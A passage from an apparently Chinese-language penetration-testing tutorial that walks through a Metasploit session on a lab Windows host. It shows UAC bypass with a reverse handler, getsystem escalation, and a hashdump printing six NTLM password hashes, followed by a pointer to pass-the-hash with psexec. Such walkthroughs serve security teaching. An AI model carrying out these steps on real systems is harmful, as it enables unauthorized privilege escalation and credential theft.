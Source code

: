 ```
meterpreter > getuid
Server username: WIN-RKPKQFBLG6C\lyw 
```

从输出的信息中，可以看到该用户的权限是一个普通权限。接下来，使用 bypassuac 模块绕过 UAC。

（3）设置 lyw 用户绕过 UAC。执行命令如下所示：

```
meterpreter > background
[*] Backgrounding session 1…
msf exploit(handler) > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > set session 1
session => 1
msf exploit(bypassuac) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] UAC is Enabled, checking level…
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing…
[+] Part of Administrators group! Continuing…
[*] Uploaded the agent to the filesystem….
[*] Uploading the bypass UAC executable to the filesystem…
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 3 opened (192.168.6.103:4444 -> 192.168.6.106:49160) at 2014-07-22 15:34:38 +0800
meterpreter > getsystem
…got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

从输出的信息中，可以看到此时 lyw 用户权限已经为 SYSTEM。

（4）查看目标主机上所有用户的哈希密码值。执行命令如下所示：

```
meterpreter > run post/windows/gather/hashdump
[*] Obtaining the boot key…
[*] Calculating the hboot key using SYSKEY 45fa5958a01cf2b66b73daa174b19dae…
[*] Obtaining the user list and keys…
[*] Decrypting user keys…
[*] Dumping password hints…
Test:"123"
[*] Dumping password hashes…
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Test:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:daf26fce5b47e01aae0f919f529926e3:::
lyw:1003:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
alice:1004:aad3b435b51404eeaad3b435b51404ee:22315d6ed1a7d5f8a7c98c40e9fa2dec::: 
```

从输出的信息中，可以看到捕获到六个用户的哈希密码值。此时，可以使用 SMB psexec 模块绕过 Hash 值。
